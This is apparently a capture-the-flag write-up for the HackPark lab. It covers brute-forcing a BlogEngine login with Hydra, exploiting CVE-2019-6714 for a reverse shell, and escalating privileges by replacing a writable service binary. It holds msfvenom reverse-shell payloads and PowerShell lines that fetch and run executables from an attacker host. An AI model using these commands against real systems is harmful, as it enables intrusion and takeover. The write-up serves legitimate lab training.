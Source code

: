 # HackPark

> Bruteforce a websites login with Hydra, identify and use a public exploit then escalate your privileges on this Windows machine!


<br>

### Process:

1. Deploying the vulnerable Windows machine
	- name of the clown displayed = **pennywise**
2. Using Hydra to brute-force a login
	- type of request login form is making = **POST**
	- brute force form using hydra:
		- `hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.22.166 http-post-form "/Account/login.aspx:__VIEWSTATE=J7%2FrKT%2FRbzXElHvOFArr4HX0BUp05PUs%2Bjl4fN5QtFnsigr6tjwFZkWaUW9RaCNkl5wcaaA9I71WXBKsdywllsO45a8kdE%2BO2GeciLswYLZgMhEIYMOLKvVE1g9%2FuxmOjygsPrfW43YX1axgD3V%2FmbHd2lx7jcwje7Qgkp065G2LekTQ&__EVENTVALIDATION=nIJxL4rdGJE3KYMzFDmVH35CAPYLfmVh68KpFWCfpmOAp8i4dLgnYkYLVP3UEDV8IiIqX6kXoIwujnQvd7xTK1Tbiqg5RF0fYL3q6nazJk37P%2BrLs8lq043TvaeMwGi4uqTkx2onf8prQt9NNxgtS4oXE0haNUx6xQId8O8kqlZfYRAG&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"`
		- username/password = **admin:1qaz2wsx**
3. Compromise the machine:
	- login to machine 
	- version of BlogEngine running = **3.3.6.0**
	- CVE related to BlogEngine version = **CVE-2019-6714**
	- use public exploit to gain access to the server:
		- find exploit: `searchsploit BlogEngine`
		- mirror (copy) exploit: `searchsploit -m aspx/webapps/46353.cs`
		- read exploit and rename: `cp 46353.cs PostView.ascx`
		- edit line 51 (changing IP address and port to attacker listener)
		- follow exploit instructions:
			- a) upload file on the  `http://10.10.22.166/admin/app/editor/editpost.cshtml` page
			- b) setup listener on attacker
			- b) execute script by navigating to `http://10.10.22.166/?theme=../../App_Data/files` URL
4. Windows privilege escalation:
	- create msfvenom meterpreter palyoad:
		- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.140.3 LPORT=4444 -f exe -o shell.exe`
	- upload it to the victim machine via netcat shell:
		- on attacker: `python3 -m http.server 8080`
		- on target: `cd /Windows/Temp` -> `powershell -c wget "http://10.10.140.3:8080/shell.exe" -outfile "shell.exe"
		- on attacker: setup metasploit multi/handler
		- on target: execute shell with `shell.exe`
	- OS version of Windows machine = **Windows 2012 R2 (6.3 Build 9600)**
	- name of abnormal service running = **WindowsScheduler**
	- the name of the binary you're supposed to exploit = **Message.exe**
	- esclate privileges:
		- upload and execute winPEAS: `upload winPEAS.exe` -> `shell` -> `winPEAS.exe servicesinfo`
		- found writeable path at "C:\\Program Files (x86)\\SystemSchedular" with WService.exe calling for "Message.exe" in this directory 
		- create "Message.exe" payload:
			- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.140.3 LPORT=5555 -f exe -o shell.exe`
		- setup handler in metasploit
		- upload and overwrite the "Message.exe" file: `upload shell.exe Message.exe`
	- user flag:
		- `cd /users/jeff/desktop` -> `cat user.txt`
		- flag = **759bd8af507517bcfaede78a21a73e39**
	- root flag
		- `cd /users/administrator/desktop` -> `cat root.txt`
		- flag = **7e13d97f05f7ceb9881a3eb3d78d3e72**
5. Privilege esclation without Metasploit:
	- create a generic shell payload:
		- `msfvenom -p window/shell_reverse_tcp -f exe -o shell2.exe lhost=10.11.31.198 lport=6666`
	- upload to machine with PowerShell:
		- host on attacker machine: `python3 -m http.server 8080`
		- on target machine: `powershell -c "Invoke-WebRequest -Uri 'http://10.11.31.198:8080/shell2.exe' -OutFile 'C:\Windows\Temp\shell2.exe'"`
	- upload and execute winPEAS to target machine:
		- host on attacker machine: `python3 -m http.server 8080`
		- on target machine: `powershell -c "Invoke-WebRequest -Uri 'http://10.11.31.198:8080/winpeas.exe' -OutFile 'C:\Windows\Temp\winpeas.exe'"`
		- execute on target machine: `winpeas.exe`
	- original install time of system = **8/3/2019, 10:43:23 AM**
		- on target's shell: `systeminfo | findstr /i date`
	


